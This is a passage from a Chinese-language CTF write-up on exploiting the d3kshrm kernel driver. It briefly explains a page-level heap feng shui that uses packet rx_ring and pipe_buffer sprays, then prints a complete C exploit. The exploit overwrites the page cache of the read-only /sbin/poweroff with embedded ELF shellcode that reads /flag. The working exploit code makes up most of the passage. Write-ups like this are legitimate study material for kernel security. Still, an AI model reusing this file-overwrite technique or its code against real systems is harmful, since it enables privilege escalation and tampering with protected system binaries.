

但是发现无论怎么分配都无法让pages分配到我们的间隔区域，经过测试发现这里slub的重新分配是有最小order的，即我们需要至少0xa\*0x1000的释放了的间隔区域才能让slub分配进此区域。

故我这里转换思路，因为一般情况下alloc\_page申请的page都是挨在一起的，所以我们先创造0x40\*0x1000的大间隔，再分配一定数量的ChunkManager->pages让slub刷新，并分配到间隔中，再去喷射大量的PipeBuffer，使得PipeBuffer分配在pages之后，这样的成功率相对较低，大概只有10%。



之后我们只需要splice绑定poweroff的page到pipebuffer中，此时ChunkManager->pages[0x1000]刚好就保存着page指针，即可实现只读文件写。



### EXP

```
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/mman.h>
#include <stdint.h>
#include <ctype.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <linux/if_packet.h>
#include <net/ethernet.h>
#include <linux/sched.h>
#include <sched.h>

#define MAX_PGNUM 0x200
#define MAX_PGSIZE MAX_PGNUM*0x1000

void init_io(){
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
}

void binary_dump(char* buf, size_t size, long long base_addr) {
    printf("\033[33mDump:
\033[0m");
    char* ptr;
    for (int i = 0; i < size / 0x20; i++) {
        ptr = buf + i * 0x20;
        printf("0x%016llx:   ", base_addr + i * 0x20);
        for (int j = 0; j < 4; j++) {
            printf("0x%016llx ", *(long long*)(ptr + 8 * j));
        }
        printf("   ");
        for (int j = 0; j < 0x20; j++) {
            printf("%c", isprint(ptr[j]) ? ptr[j] : '.');
        }
        putchar('
');
    }
    if (size % 0x20 != 0) {
        int k = size - size % 0x20;
        printf("0x%016llx:   ", base_addr + k);
        ptr = buf + k;
        for (int i = 0; i <= (size - k) / 8; i++) {
            printf("0x%016llx ", *(long long*)(ptr + 8 * i));
        }
        for (int i = 0; i < 3 - (size - k) / 8; i++) {
            printf("%19c", ' ');
        }
        printf("   ");
        for (int j = 0; j < size - k; j++) {
            printf("%c", isprint(ptr[j]) ? ptr[j] : '.');
        }
        putchar('
');
    }
}

void unshare_setup(void) {
    char edit[0x100];
    int tmp_fd;

    unshare(CLONE_NEWNS | CLONE_NEWUSER | CLONE_NEWNET);

    tmp_fd = open("/proc/self/setgroups", O_WRONLY);
    write(tmp_fd, "deny", strlen("deny"));
    close(tmp_fd);

    tmp_fd = open("/proc/self/uid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getuid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);

    tmp_fd = open("/proc/self/gid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getgid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);
}

int packet_rx_ring_setup(int block_nr, int block_size, int frame_size, int sizeof_priv, int timeout) {
    int sock = socket(AF_PACKET, SOCK_RAW, htonl(ETH_P_ALL));
    if (sock < 0) {
        perror("socket");
    }

    int version = TPACKET_V3;
    int ret = setsockopt(sock, SOL_PACKET, PACKET_VERSION, &version, sizeof(version));
    if (ret < 0) {
        perror("setsockopt version");
    }
    struct tpacket_req3 req3;
    req3.tp_block_nr = block_nr;
    req3.tp_block_size = block_size;
    req3.tp_frame_size = frame_size;
    req3.tp_frame_nr = (block_size * block_nr) / frame_size;
    req3.tp_retire_blk_tov = timeout;
    req3.tp_sizeof_priv = sizeof_priv;
    req3.tp_feature_req_word = 0;
    ret = setsockopt(sock, SOL_PACKET, PACKET_RX_RING, &req3, sizeof(req3));
    if (ret < 0) {
        perror("setsockopt rx_ring");
    }
    struct sockaddr_ll sa;
    memset(&sa, 0, sizeof(sa));
    sa.sll_family = PF_PACKET;
    sa.sll_protocol = htons(ETH_P_ALL);
    sa.sll_ifindex = if_nametoindex("lo");
    sa.sll_hatype = 0;
    sa.sll_halen = 0;
    sa.sll_pkttype = 0;
    sa.sll_halen = 0;
    ret = bind(sock, (struct sockaddr*)&sa, sizeof(sa));
    if (ret < 0) {
        perror("bind");
    }
    return sock;
}

int rx_spray[0x200];

void spray_rx_ring(int n, int block_nr){
    static int cnt = 0;
    for (int i = cnt; i < cnt + n; i++){
        rx_spray[i] = packet_rx_ring_setup(block_nr, getpagesize(), getpagesize() / 2, 0, 1000);
    }
    cnt+=n;
}


void bind_core(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    printf("[*] Process binded to core %d
", core);
}

int ko_fd = -1, ko_fd2 = -1, pwfd, spray_fd[0x200], pfd[0x200][2];
uint64_t spray_rx_addr[0x1000];

int kadd(int fd, int size){
    return ioctl(fd, 0x3361626E, size);
}

int kdele(int fd, int idx){
    return ioctl(fd, 0x74747261, idx);
}

int kbind(int fd, int idx){
    return ioctl(fd, 0x746E6162, idx);
}

int kunbind(int fd, int idx){
    return ioctl(fd, 0x33746172, idx);
}

unsigned char orw_elfcode[] = { 0x7f,0x45,0x4c,0x46,0x2,0x1,0x1,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x2,0x0,0x3e,0x0,0x1,0x0,0x0,0x0,0x78,0x0,0x40,0x0,0x0,0x0,0x0,0x0,0x40,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x40,0x0,0x38,0x0,0x1,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x1,0x0,0x0,0x0,0x5,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x40,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x40,0x0,0x0,0x0,0x0,0x0,0xb7,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0xb7,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x10,0x0,0x0,0x0,0x0,0x0,0x0,0x48,0xbf,0x2f,0x66,0x6c,0x61,0x67,0x0,0x0,0x0,0x57,0x48,0x89,0xe7,0x48,0x31,0xf6,0x48,0x31,0xd2,0xb8,0x2,0x0,0x0,0x0,0xf,0x5,0x48,0x89,0xc7,0x48,0x89,0xe6,0xba,0x0,0x1,0x0,0x0,0x48,0x31,0xc0,0xf,0x5,0xbf,0x1,0x0,0x0,0x0,0x48,0x89,0xe6,0xba,0x0,0x1,0x0,0x0,0xb8,0x1,0x0,0x0,0x0,0xf,0x5 };

int main(){
    bind_core(0);
    init_io();
    unshare_setup();
    puts("[*] Exploit start.");
    ko_fd = open("/proc/d3kshrm", O_RDWR);
    if (ko_fd < 0){
        puts("[-] Device open failed.");
        exit(0);
    }
    pwfd = open("/sbin/poweroff", O_RDONLY);
    if (pwfd < 0){
        puts("[-] Poweroff open failed.");
        exit(0);
    }

    int spray_num[] = {0x20, 0xc}, block_nr[] = {0x40};//0xa是堆风水构造的最小nr，如果小了就不会被slab分配到。

    puts("[*] Spraying the rx ring buffer.");
    spray_rx_ring(spray_num[0], block_nr[0]);
    for (int i = 0; i < spray_num[0]; i++){
        spray_rx_addr[i] = mmap(NULL, 0x1000*block_nr[0], PROT_READ|PROT_WRITE, MAP_SHARED, rx_spray[i], 0);
        for (int j = 0; j < block_nr[0]; j++){
            *(uint64_t*)(spray_rx_addr[i]+0x1000*j) = i*0x1000+j;
        }
    }
    for (int i = 0; i < spray_num[0]; i++){
        close(rx_spray[i]); 
    }

    for (int i = 1; i < spray_num[0]; i+=2){
        munmap(spray_rx_addr[i], 0x1000*block_nr[0]);
    }

    puts("[*] Spraying the pipe buffer.");
    for(int i = 0; i < 0xe0; i++){
        size_t offin = 0, pgnr = 0x40;
        if (pipe(pfd[i])<0){
            puts("[-] Failed to spray pipe structure.");
            exit(0);
        }
        if (fcntl(pfd[i][1], F_SETPIPE_SZ, pgnr*0x1000) < 0){
            puts("[-] Failed to fcntl.");
            exit(0);
        }
        if (splice(pwfd, &offin, pfd[i][1], NULL, 1, 0)<0){
            puts("[-] Failed to splice.");
            exit(0);
        }
    }
    for (int i = 0; i < spray_num[1]; i++){
        kadd(ko_fd, MAX_PGNUM);
    }
    kadd(ko_fd, MAX_PGNUM);

    for(int i = 0xe0; i < 0x100; i++){
        size_t offin = 0, pgnr = 0x40;
        if (pipe(pfd[i])<0){
            puts("[-] Failed to spray pipe structure.");
            exit(0);
        }
        if (fcntl(pfd[i][1], F_SETPIPE_SZ, pgnr*0x1000) < 0){
            puts("[-] Failed to fcntl.");
            exit(0);
        }
        if (splice(pwfd, &offin, pfd[i][1], NULL, 0x1000, 0)<0){
            puts("[-] Failed to splice.");
            exit(0);
        }
    }
    puts("[*] Try to find and change the poweroff.");
    for(int i = spray_num[1]; i >= 0; i--){
        printf("[*] Trying %d
", spray_num[1] - i);
        int fd = open("/proc/d3kshrm", O_RDWR);
        if (fd < 0){
            puts("[-] Open device failed.");
            exit(0);
        }
        if (kbind(fd, i) < 0){
            puts("[-] Kbound failed.");
            exit(0);
        }
        uint64_t addr = mmap(0xdead000000, MAX_PGSIZE, PROT_WRITE|PROT_READ, MAP_SHARED, fd, 0);
        if (addr <= 0){
            puts("[-] Mmap failed.");
            exit(0);
        }
        addr = mremap(addr, MAX_PGSIZE, MAX_PGSIZE+0x1000, MREMAP_MAYMOVE);
        if (addr <= 0){
            puts("[-] Mremap failed.");
            exit(0);
        }
        if (*(uint64_t*)(addr+MAX_PGSIZE) == 0x3010102464c457f){
            memcpy(addr+MAX_PGSIZE, orw_elfcode, sizeof(orw_elfcode));
            puts("[+] Success to change poweroff.");
            close(pwfd);
            break;
        }
        munmap(addr, MAX_PGSIZE+0x1000);
    }

    puts("[*] Exploit end.");
    return 0;
}
```
